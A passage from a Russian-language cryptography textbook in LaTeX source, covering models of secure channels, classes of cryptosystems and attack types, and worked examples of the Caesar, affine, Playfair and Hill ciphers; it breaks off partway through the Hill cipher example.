	
\includegraphics[width=1.0\textwidth]{pic/model-simple-with-channel}
	\caption{Открытый и защищённый каналы связи в модели системы передачи информации с криптографической защитой\label{pic:model-simple-with-channel}}
\end{figure}

Для обеспечения конфиденциальности информации используются криптографические системы с функцией шифрования. Пример системы с шифрованием показан на рис.~\ref{pic:model-cipher}.

\begin{figure}[!thb]
	\centering
	
\includegraphics[width=1.0\textwidth]{pic/model-cipher}
	\caption{Модель системы передачи информации с шифрованием\label{pic:model-cipher}}
\end{figure}

Легальный отправитель \emph{шифрует} (\langen{cipher}) сообщение (\emph{открытый текст}\index{открытый текст}, \langen{plaintext}) с использованием \emph{ключа шифрования}\index{ключ!шифрования} (\langen{encryption key}) и передаёт зашифрованное сообщение (\emph{шифртекст}\index{шифртекст}, \langen{ciphertext, cyphertext} или \emph{шифрограмма}\index{шифрограмма}\footnote{Строго говоря, \emph{шифрограмма} -- это \emph{шифртекст} после его \emph{кодирования} для целей передачи по каналу связи.}) по открытому каналу связи. Легальный получатель \emph{расшифровывает} сообщение, используя \emph{ключ расшифрования}\index{ключ!расшифрования}, в общем случае отличающийся от ключа шифрования. Нелегальный пользователь, называемый криптоаналитиком, пытается \emph{дешифровать}\footnote{Обратите внимание, что в англоязычной литературе словом <<\textit{decryption}>> обозначается и расшифрование, и дешифрование.} сообщение, не имея ключа расшифрования, то есть нарушить конфиденциальность передаваемой информации. Можно сказать, что функции шифрования и расшифрования вместе с конкретными ключами шифрования и расшифрования помогли легальным участникам системы установить защищённый канал связи, обеспечивающий конфиденциальность информации.

\emph{Шифрование} (\emph{зашифрование}) -- это обратимое преобразование данных, формирующее шифртекст из открытого текста. \emph{Расшифрование} -- операция, обратная шифрованию. А вместе это \emph{шифр} -- криптографический метод, используемый для обеспечения конфиденциальности данных, включающий алгоритм зашифрования и алгоритм расшифрования.~\cite{GOST-89}

\emph{Шифр}\index{шифр} -- это множество обратимых функций отображения $E_{K_1}$\index{функция!шифрования} множества открытых текстов $\set{M}$ на множество шифртекстов $\set{C}$, зависящих от выбранного ключа шифрования $K_1$ из множества $\set{K}_E$, а также соответствующие им обратные функции расшифрования $D_{K_2}$, $\set{K}_D$, отображающие множество шифртекстов на множество открытых текстов:
\begin{equation}\label{eq:Encryption}\begin{array}{l}
	E_{k_1}, k_1 \in \set{K}_E: \set{M} \to \set{C}, \\
	D_{k_2}, k_2 \in \set{K}_D: \set{C} \to \set{M}, \\
	\forall k_1 \in \set{K}_E ~ \exists k_2 \in \set{K}_D: \\
	\forall m \in \set{M}: ~ E_{k_1} \left( m \right) = c, c \in \set{C}: \\
	D_{k_2} \left( c \right) = m.
\end{array}\end{equation}

Можно сказать, что шифрование -- это обратимая функция двух аргументов: сообщения и ключа. Обратимость -- основное условие корректности шифрования, по которому каждому зашифрованному сообщению $Y$ и ключу $K$ соответствует одно исходное сообщение $X$. Легальный пользователь $B$ (на приёмной стороне системы связи) получает сообщение $Y$ и осуществляет процедуру \emph{расшифрования}\index{расшифрование}.

Следует отличать \emph{шифрование} от \emph{кодирования}, будь то кодирование источника или канала. Под кодированием источника понимается преобразование информации для более компактного хранения, а под кодированием канала -- для повышения помехоустойчивости.

Модель системы передачи информации с обеспечением аутентичности передаваемых сообщений выглядит, как показано на рис.~\ref{pic:model-auten}.

\begin{figure}[!thb]
	\centering
	
\includegraphics[width=1.0\textwidth]{pic/model-auten}
	\caption{Модель системы передачи информации с обеспечением аутентичности передаваемых сообщений\label{pic:model-auten}}
\end{figure}

В этой модели сообщение передаётся по открытому каналу связи без изменений (в открытом виде), однако вместе с сообщением от легального пользователя по тому же каналу связи передаётся дополнительная информация. Специальные криптографические методы позволяют гарантировать, что данную информацию может сформировать только легальный пользователь (или, в некоторых случаях, ещё и легальный получатель). Легальный получатель проверяет эту дополнительную информацию и убеждается, что сообщение пришло именно от легального отправителя и без изменений. Таким образом был организован защищённый канал связи с обеспечением аутентичности передаваемых сообщений. 

\index{канал связи!защищённый|)}\index{канал связи!открытый|)}


\section[Классификация]{Классификация криптографических механизмов}

\subsection{Симметричные и асимметричные криптосистемы}
\selectlanguage{russian}

Криптографические системы и шифры можно разделить на две большие группы в зависимости от принципа использования ключей для шифрования и расшифрования.

Если для шифрования и расшифрования используется один и тот же ключ $K$, либо если получение ключа расшифрования $K_2$ из ключа шифрования $K_1$ является тривиальной операцией, то такая криптосистема называется \emph{симметричной}\index{криптосистема!симметричная}. В зависимости от объёма данных, обрабатываемых за одну операцию шифрования, симметричные шифры делятся на \emph{блочные}\index{шифр!блочный}, в которых за одну операцию шифрования происходит преобразование одного блока данных (32 бита, 64, 128 или больше), и \emph{потоковые}\index{шифр!потоковый}, в которых работают с каждым символом открытого текста по отдельности (например, с 1 битом или 1 байтом). Примеры блочных шифров рассмотрены в главе~\ref{chapter-block-ciphers}, а потоковых -- в главе~\ref{chapter-stream-ciphers}.

Использование блочного шифра подразумевает разделение открытого текста на блоки одинаковой длины, к каждому из которых применяется функция шифрования. Кроме того, результат шифрования следующего блока может зависеть от предыдущего\footnote{Строго говоря, функция шифрования может применяться не только к самому блоку данных, но и к другим параметрам текущего отрывка открытого текста. Например, к его позиции в тексте (\langen{offset}) или даже к результату шифрования предыдущего блока.}. Данная возможность регулируется \emph{режимом работы блочного шифра}. Примеры нескольких таких режимов рассмотрены в разделе~\ref{section-block-chaining}.

Если ключ расшифрования получить из ключа шифрования вычислительно сложно, то такие криптосистемы называют криптосистемами \emph{с открытым ключом}\index{криптосистема!с открытым ключом} или \emph{асимметричными} криптосистемами\index{криптосистема!асимметричная}. Некоторые из них рассмотрены в главе~\ref{chapter-public-key}. Все используемые на сегодняшний день асимметричные криптосистемы работают с открытым текстом, составляющим несколько сотен или тысяч бит, поэтому классификация таких систем по объёму обрабатываемых за одну операцию данных не производится.

Алгоритм, который выполняет отображение аргумента произвольной длины в значение фиксированной длины, называется \emph{хеш-функцией}. Если для такой хеш-функции выполняются определённые свойства, например, устойчивость к поиску коллизий, то это уже \emph{криптографическая хеш-функция}. Такие функции рассмотрены в главе~\ref{chapter-hash-functions}.

Для проверки аутентичности сообщения с использованием общего секретного ключа отправителем и получателем используется \emph{код аутентификации [сообщения]} (другое название в русскоязычной литературе - \emph{имитовставка}, \langen{message authentication code, MAC}), рассмотренный в разделе~\ref{section-MAC}. Его аналогом в криптосистемах с открытым ключом является \emph{электронная подпись}, алгоритмы генерации и проверки которой рассмотрены в главе~\ref{chapter-public-key} вместе с алгоритмами асимметричного шифрования.

\subsection{Шифры замены и перестановки}

Шифры по способу преобразования открытого текста в шифртекст разделяются на шифры замены и шифры перестановки.

\input{substitution_ciphers}

\input{permutation_ciphers}

\input{composite_ciphers}

\subsection{Примеры современных криптографических примитивов}

Приведём примеры названий некоторых современных криптографических примитивов, из которых строят системы защиты информации.
\begin{itemize}
    \item DES\index{шифр!DES}, AES, ГОСТ 28147-89, Blowfish\index{шифр!Blowfish}, RC5\index{шифр!RC5}, RC6\index{шифр!RC6} -- блочные симметричные шифры, скорость обработки -- десятки мегабайт в секунду.
    \item A5/1, A5/2, A5/3\index{шифр!A5}, RC4\index{шифр!RC4} -- потоковые симметричные шифры с высокой скоростью. Семейство A5 применяется в мобильной связи GSM, RC4 -- в компьютерных сетях для SSL-соединения между браузером и веб-сервером.
    \item RSA\index{шифр!RSA} -- криптосистема с открытым ключом для шифрования.
    \item RSA\index{электронная подпись!RSA}, DSA\index{электронная подпись!DSA}, ГОСТ Р 34.10-2001\index{электронная подпись!ГОСТ Р 34.10-2001} -- криптосистемы с открытым ключом для электронной подписи.
    \item MD5\index{хеш-функция!MD5}, SHA-1\index{хеш-функция!SHA-1}, SHA-2\index{хеш-функция!SHA-2}, ГОСТ Р 34.11-94\index{хеш-функция!ГОСТ Р 34.11-94} -- криптографические хеш-функции.
\end{itemize}

\section{Методы криптоанализа и типы атак}
\selectlanguage{russian}

Нелегальный пользователь-криптоаналитик получает информацию путём дешифрования. Сложность этой процедуры определяется числом стандартных операций, которые надо выполнить для достижения цели. \emph{Двоичной сложностью}\index{сложность!двоичная} (или битовой сложностью) алгоритма называется количество двоичных операций, которые необходимо выполнить для его завершения.

Рассмотрим основные сценарии работы криптоаналитика $E$. В первом сценарии криптоаналитик может осуществлять подслушивание и (или) перехват сообщений. Его вмешательство не нарушает целостности информации: $Y=\widetilde{Y}$, где Y -- информация, как случайная величина, до вмешательства, $\widetilde{Y}$ -- после вмешательства. Эта роль криптоаналитика называется \emph{пассивной}. Так как он получает доступ к информации, то здесь нарушается конфиденциальность.

Во втором сценарии роль криптоаналитика \emph{активная}. Он может подслушивать, перехватывать сообщения и преобразовывать их по своему усмотрению: задерживать, искажать с помощью перестановок пакетов, устраивать обрыв связи, создавать новые сообщения и т.~п. В этом случае выполняется условие $Y \neq \widetilde{Y}$. Это значит, что одновременно нарушается целостность и конфиденциальность передаваемой информации.

Приведём примеры пассивных и активных атак:
\begin{itemize}
    \item Атака <<человек посередине>>\index{атака!<<человек посередине>>} (\langen{man-in-the-middle}) подразумевает криптоаналитика, который разрывает канал связи, встраиваясь между $A$ и $B$, получает сообщения от $A$ и от $B$, а от себя отправляет новые, фальсифицированные сообщения. В результате $A$ и $B$ не замечают, что общаются с $E$, а не друг с другом.
    \item Атака \emph{воспроизведения}\index{атака!воспроизведения} (\langen{replay attack}) предполагает, что криптоаналитик может записывать и воспроизводить шифртексты, имитируя легального пользователя.
    \item Атака на \emph{различение} сообщений\index{атака!на различение} означает, что криптоаналитик, наблюдая одинаковые шифртексты, может извлечь информацию об идентичности исходных открытых текстов.
    \item Атака на \emph{расширение} сообщений\index{атака!на расширение} означает, что криптоаналитик может дополнить шифртекст осмысленной информацией без знания секретного ключа.
    \item \emph{Фальсификация} шифртекстов\index{атака!фальсификацией} криптоаналитиком без знания секретного ключа.
\end{itemize}

Часто для нахождения секретного ключа криптоатаки строят в предположениях о доступности дополнительной информации. Приведём примеры:
\begin{itemize}
    \item Атака на основе известного открытого текста\index{атака!с известным открытым текстом} (\langen{chosen plaintext attack, CPA}) предполагает, что криптоаналитик имеет возможность выбирать открытый текст и получать для него соответствующий шифртекст.
    \item Атака на основе известного шифртекста\index{атака!с известным шифртекстом} (\langen{chosen ciphertext attack, CCA}) предполагает возможность криптоаналитику выбирать шифртекст и получать для него соответствующий открытый текст.
\end{itemize}

Обязательным требованием к современным криптосистемам является устойчивость ко всем известным типам атак: пассивным, активным и с дополнительной информацией.


%Приведём примеры возможных вариантов работы активного криптоаналитика.
%\begin{itemize}
%\item Криптоаналитик имеет $m$ шифрованных сообщений $Y_{1},Y_{2},\ldots Y_{m}$ и пытается определить ключ или прочитать открытый текст $X_{1},X_{2},\ldots X_{m}.$
%\item Криптоаналитик имеет несколько пар открытого и шифрованного текстов
%
%$(Y_{1},X_{1}),(Y_{2}X_{2}),\ldots (Y_{m}X_{m})$ и пытается дешифровать остальной текст или определить алгоритм шифрования или определить ключ.
%\item
%\item
%\item
%\end{itemize}

Для защиты информации от активного криптоаналитика и обеспечения её целостности дополнительно к шифрованию сообщений применяют имитовставку\index{имитовставка}. Для неё используют обозначение $\MAC$ (\langen{message authentication code}). Как правило, $\MAC$ строится на основе хеш-функций, которые будут описаны далее.

Существуют ситуации, когда пользователи $A$ и $B$ не доверяют друг другу. Например, $A$ -- банк, $B$ -- получатель денег. $A$ утверждает, что деньги были переведены, $B$ - что перевода не было. Решение задачи аутентификации и неотрицаемости состоит в обеспечении \emph{электронной подписью}\index{электронная подпись} каждого из абонентов. Предварительно надо решить задачу о генерировании и распределении секретных ключей.

В общем случае системы защиты информации должны обеспечивать:
\begin{itemize}
    \item конфиденциальность\index{конфиденциальность} (защиту от наблюдения),
    \item целостность\index{целостность} (защиту от изменения),
    \item аутентификацию (защиту от фальсификации пользователя и сообщений),
    \item доказательство авторства информации (доказательство авторства и защита от его отрицания)
\end{itemize}
как со стороны получателя, так и со стороны отправителя.

Важным критерием для выбора степени защиты является сравнение стоимости реализации взлома для получения информации и экономического эффекта от владения ей. Очевидно, что если стоимость взлома превышает ценность информации, взлом нецелесообразен.

%Сценарии защиты информации
%   Сценарий 1. A -- передающая сторона. B -- принимающая сторона. E -- пассивный
%криптоаналитик, который может подслушивать передачу, но не может вмешиваться
%в процесс передачи. Цель защиты: обеспечение конфиденциальности. Средства
%-- методы шифрования с секретным ключом (симметричные системы шифрования)
%и методы шифрования с открытым ключом (асимметричные системы шифрования).
%Сценарий 2. E -- активный криптоаналитик, который может изменять, удалять и вставлять
%сообщения или их части. Цель защиты -- обеспечение конфиденциальности (не
%всегда) и обеспечение целостности. Средства -- методы шифрования и добавление
%имитовставки\index{имитовставка} (Message Authentication Code -- $\MAC$).
%Сценарий 3. A и B не доверяют друг другу. Цель защиты -- аутентификация пользователя.
%Средства -- электронная подпись.


\input{The_minimum_key_lengths}


\chapter{Классические шифры}

В главе приведены наиболее известные \emph{классические} шифры, которыми можно было пользоваться до появления роторных машин. К ним относятся такие шифры, как шифр Цезаря\index{шифр!Цезаря}, шифр Плейфера\index{шифр!Плейфера}, шифр Хилла\index{шифр!Хилла} и шифр Виженера\index{шифр!Виженера}. Они наглядно демонстрируют различные классы шифров.

\section{Моноалфавитные шифры}\label{section-substitution-cipher}\index{шифр!моноалфавитный|(}
\selectlanguage{russian}

Преобразования открытого текста в шифртекст могут быть описаны различными функциями. Если функция преобразования является аддитивной, то и соответствующий шифр называется \emph{аддитивным}. Если это преобразование является аффинным, то шифр называется \emph{аффинным}.

\subsection{Шифр Цезаря}\label{section-caesar-cipher}\index{шифр!Цезаря}

Известным примером простого шифра замены является \emph{шифр Цезаря}. Процедура шифрования состоит в следующем (рис.~\ref{fig:caesar}). Записывают все буквы латинского алфавита в стандартном порядке:
    \[ A B C D E \dots Z. \]
Делают циклический сдвиг влево, например на три буквы, и записывают все буквы во втором ряду, начиная с четвёртой буквы $D$. Буквы первого ряда заменяют соответствующими (как показано стрелкой на рисунке) буквами второго ряда. После такой замены слова не распознаются теми, кто не знает ключа. Ключом $K$ является первый символ сдвинутого алфавита.

\begin{figure}[thb]
\[ \begin{array}{ccccccccccc}
    \text{A} & \text{B} & \text{C} & \text{D} & \text{E} & & \text{V} & \text{W} & \text{X} & \text{Y} & \text{Z} \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    \text{D} & \text{E} & \text{F} & \text{G} & \text{H} & & \text{Y} & \text{Z} & \text{A} & \text{B} & \text{C} \\
\end{array} \]
	\caption{Шифр Цезаря\index{шифр!Цезаря}}
	\label{fig:caesar}
\end{figure}

\example
В русском языке сообщение \texttt{изучайтекриптографию} посредством шифрования с ключом $K = \text{\texttt{г}}$ (сдвиг вправо на 3 символа по алфавиту) преобразуется в \texttt{лкцъгмхзнултхсёугчлб}.
\exampleend

Недостатком любого шифра замены является то, что в шифрованном тексте сохраняются все частоты появления букв открытого текста и корреляционные связи между буквами. Они существуют в каждом языке. Например, в русском языке чаще всего встречаются буквы $A$ и $O$. Для дешифрования криптоаналитик имеет возможность прочитать открытый текст, используя частотный анализ букв шифртекста. Для <<взлома>> шифра Цезаря достаточно найти одну пару букв -- одну замену.

\subsection{Аддитивный шифр перестановки}\index{шифр!перестановки аддитивный}

Рисунок~\ref{fig:caesar-additiv} поясняет \emph{аддитивный шифр} перестановки на алфавите. Все 26 букв латинского алфавита нумеруют по порядку от 0 до 25. Затем номер буквы меняют в соответствии с уравнением:
    \[ y = x + b \mod 26, \]
где $x$ -- прежний номер, $y$ -- новый номер, $b$ -- заданное целое число, определяющее сдвиг номера и известное только легальным пользователям. Очевидно, что шифр Цезаря является примером аддитивного шифра.

\begin{figure}[thb]
\[ \begin{array}{ccccccccccc}
    \text{A} & \text{B} & \text{C} & \text{D} & \text{E} & & \text{V} & \text{W} & \text{X} & \text{Y} & \text{Z} \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    0 & 1 & 2 & 3 & 4 & & 21 & 22 & 23 & 24 & 25 \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    3 & 4 & 5 & 6 & 7 & & 24 & 25 & 0 & 1 & 2 \\
    \downarrow & \downarrow & \downarrow & \downarrow & \downarrow & \dots & \downarrow & \downarrow & \downarrow & \downarrow & \downarrow \\
    \text{D} & \text{E} & \text{F} & \text{G} & \text{H} & & \text{Y} & \text{Z} & \text{A} & \text{B} & \text{C} \\
\end{array} \]
	\caption{Шифр Цезаря\index{шифр!Цезаря} как пример аддитивного шифра\index{шифр!перестановки аддитивный}}
	\label{fig:caesar-additiv}
\end{figure}

\subsection{Аффинный шифр}\label{section-affine-cipher}\index{шифр!афинный}

Аддитивный шифр является частным случаем \emph{аффинного шифра}. Правило шифрования сообщения имеет вид
    \[ y = a x + b \mod n. \]
Здесь производится умножение номера символа $x$ из алфавита, $x\in \set\{ 0, 1, 2, \dots, N \leq n-1 \}$, на заданное целое число $a$ и сложение с числом $b$ по модулю целого числа $n$. Ключом является $K = (a, b)$.

Расшифрование осуществляется по формуле:
    \[ x = (y - b) a^{-1} \mod n. \]

Чтобы обеспечить обратимость в этом шифре, должен существовать единственный обратный элемент $a^{-1}$ по модулю $n$. Для этого должно выполняться условие $\gcd(a,n) = 1$, то есть $a$ и $n$ должны быть взаимно простыми числами ($\gcd$ -- сокращение, образованное от термина greatest common divisor -- наибольший общий делитель, $\text{НОД}$). Очевидно, что для <<взлома>> такого шифра достаточно найти две пары букв -- две замены.

\index{шифр!моноалфавитный|)}


\section{Биграммные шифры замены}\index{шифр!биграммный}
\selectlanguage{russian}

Если при шифровании преобразуется по две буквы открытого текста, то такой шифр называется \emph{биграммным}\index{шифр!биграммный} шифром замены. Первый биграммный шифр был изобретён аббатом Иоганном Тритемием и опубликован в 1508-м году. Другой биграммный шифр изобретён в 1854 году Чарльзом Витстоном. Лорд Лайон Плейфер (\langen{Lyon Playfair}) внедрил этот шифр в государственных службах Великобритании, и шифр был назван шифром Плейфера\index{шифр!Плейфера}.

Опишем шифр Плейфера\index{шифр!Плейфера}. Составляется таблица для английского алфавита (буквы \texttt{I}, \texttt{J} отождествляются), в которую заносятся буквы перемешанного алфавита, например, в виде таблицы, представленной ниже. Часто перемешивание алфавита реализуется с помощью начального слова, в котором отбрасываются повторяющиеся символы. В нашем примере начальное слово \texttt{playfair}. Таблица имеет вид:

\begin{center}
    \begin{tabular}{ccccc}
        p & l & a & y & f  \\
        i & r & b & c & d  \\
        e & g & h & k & m  \\
        n & o & q & s & t  \\
        u & v & w & x & z  \\
    \end{tabular}
\end{center}

Буквы открытого текста разбиваются на пары. Правила шифрования каждой пары состоят в следующем.

\begin{itemize}
    \item Если буквы пары не лежат в одной строке или в одном столбце таблицы, то они заменяются буквами, образующими с исходными буквами вершины прямоугольника. Первой букве пары соответствует буква таблицы, находящаяся в том же столбце. Пара букв открытого текста \texttt{we} заменяется двумя буквами таблицы \texttt{hu}. Пара букв открытого текста \texttt{ew} заменяется двумя буквами таблицы \texttt{uh}.
    \item Если буквы пары открытого текста расположены в одной строке таблицы, то каждая буква заменяется соседней справа буквой таблицы. Например, пара \texttt{gk} заменяется двумя буквами \texttt{hm}. Если одна из этих букв -- крайняя правая в таблице, то её <<правым соседом>> считается крайняя левая в этой строке. Так, пара \texttt{to} заменяется буквами \texttt{nq}.
    \item Если буквы пары лежат в одном столбце, то каждая буква заменяется соседней буквой снизу. Например, пара \texttt{lo} заменяется парой \texttt{rv}. Если одна из этих букв крайняя нижняя, то её <<нижним соседом>> считается крайняя верхняя буква в этом столбце таблицы. Например, пара \texttt{kx} заменяется буквами \texttt{sy}.
    \item Если буквы в паре одинаковые, то между ними вставляется определённая буква, называемая <<буквой-пустышкой>>. После этого разбиение на пары производится заново.
\end{itemize}

\example
Используем шифр Плейфера\index{шифр!Плейфера} и зашифруем сообщение "\texttt{Wheatstone was the inventor}". Исходное сообщение, разбитое на биграммы, показано в первой строке таблицы. Результат шифрования, также разбитый на биграммы, приведён во второй строке.
\begin{center} \begin{tabular}{|*{12}c|}
    \hline
    wh & ea & ts & to & ne & wa & st & he & in & ve & nt & or \\
    \hline
    aq & ph & nt & nq & un & ab & tn & kg & eu & gu & on & vg \\
    \hline
\end{tabular} \end{center}
\exampleend

Шифр Плейфера\index{шифр!Плейфера} не является криптографически стойким. Несложно найти ключ, если известны пара открытого текста и соответствующего ему шифртекста. Если известен только шифртекст, криптоаналитик может проанализировать соответствие между частотой появления биграмм в шифртексте и известной частотой появления биграмм в языке, на котором написано сообщение. Такой частотный анализ помогает дешифрованию.


\section{Полиграммный шифр замены Хилла}\index{шифр!Хилла|(}
\selectlanguage{russian}

Если при шифровании преобразуются более двух букв открытого текста, то шифр называется \emph{полиграммным}\index{шифр!полиграммный}. Первый полиграммный шифр предложил Лестер Хилл в 1929 году (\langen{Lester Sanders Hill}, \cite{Hill:1929, Hill:1931}). Это был первый шифр, который позволял оперировать более чем тремя символами за один такт.

В шифре Хилла текст предварительно преобразуют в цифровую форму и разбивают на последовательности (блоки) по $n$ последовательных цифр. Такие последовательности называются \emph{$n$-граммами}. Выбирают обратимую по модулю $m$  $(n \times n)$-матрицу $\mathbf{A} = (a_{ij})$, где $m$ -- число букв в алфавите. Выбирают случайный $n$-вектор $\mathbf{f} = (f_1, \dots, f_n)$. После чего $n$-грамма открытого текста $\mathbf{x} = (x_1, x_2, \dots, x_n)$ заменяется $n$-граммой шифрованного текста $\mathbf{y} = (y_1, y_2, \dots, y_n)$ по формуле:
    \[ \mathbf{y} = \mathbf{x} \mathbf{A} + \mathbf{f} \mod m. \]
Расшифрование проводится по правилу:
    \[ \mathbf{x} = (\mathbf{y} - \mathbf{f}) \mathbf{A}^{-1} \mod m. \]

\example
Приведём пример шифрования с помощью шифра Хилла. Преобразуем английский алфавит в числовую форму (m = 26) следующим образом:
\[ \text{a} \rightarrow 0, ~ \text{b} \rightarrow 1, ~ \text{c} \rightarrow 2, ~ \dots, ~ \text{z} \rightarrow 25. \]
%\[ \begin{array}{cccccccccccccc}
%    a & b & c & d & e & f & g & h & i & j &  k &  l &  m &  n \\
%    0 & 1 & 2 & 3 & 4 & 5 & 6 & 7 & 8 & 9 & 10 & 11 & 12 & 13
%\end{array} \]
%\[ \begin{array}{cccccccccccc}
%     o &  p &  q &  r &  s &  t &  u &  v &  w &  x &  y &  z  \\
%    14 & 15 & 16 & 17 & 18 & 19 & 20 & 21 & 22 & 23 & 24 & 25
%\end{array} \]

Выберем для примера $n = 2$. Запишем фразу <<Wheatstone was the inventor>> из предыдущего примера (первая строка таблицы). Каждой букве поставим в соответствие её номер в алфавите (вторая строка):
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{12}c|}
    \hline
    w, h & e,a & t,s & t,o & n,e & w,a & s,t & h,e & i,n & v,e & n,t & o,r \\
    \hline
    22, 7 & 4,0 & 19,18 & 19,14 & 13,4 & 22,0 & 18,19 & 7,4 & 8,13 & 21,4 & 13,19 & 14,17 \\
    \hline
\end{tabular} } \end{center}

Выберем матрицу шифрования $A$ в виде:
\[
    \mathbf{A} = \left( \begin{array}{cc}
        5 & 8 \\
        3 & 5 \\
    \end{array} \right).
\]

Эта матрица обратима по $\Mod 26$, так как её определитель равен $1$ и взаимно прост с числом букв английского алфавита $m=26$. Обратная матрица равна:
\[
    \mathbf{A}^{-1} = \left( \begin{array}{cc}
        5  & 18 \\
        23 & 5
    \end{array} \right) \mod 26.
\]

Выберем вектор $\mathbf{f} = (4, 2)$. Первая числовая пара открытого текста $\mathbf{x} = (\text{w}, \text{h}) = (22, 7)$ зашифрована в виде:
\[
    \mathbf{y} = \mathbf{x} \mathbf{A} + \mathbf{f} =
        (22, 7)
        \left( \begin{array}{cc}
            5 & 8 \\
            3 & 5
        \end{array} \right) +
        (4, 2) = (14, 3) \mod 26
\]
или в буквенном виде $(\text{o}, \text{d})$.

Повторяя вычисления для всех пар, получим полный шифрованный текст в числовом виде (третья строка) или в буквенном виде (четвёртая строка):
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{12}c|}
    \hline
    w, h & e, a & t, s & t, o & n, e & w, a & s, t & h, e & i, n & v, e & n, t & o, r \\
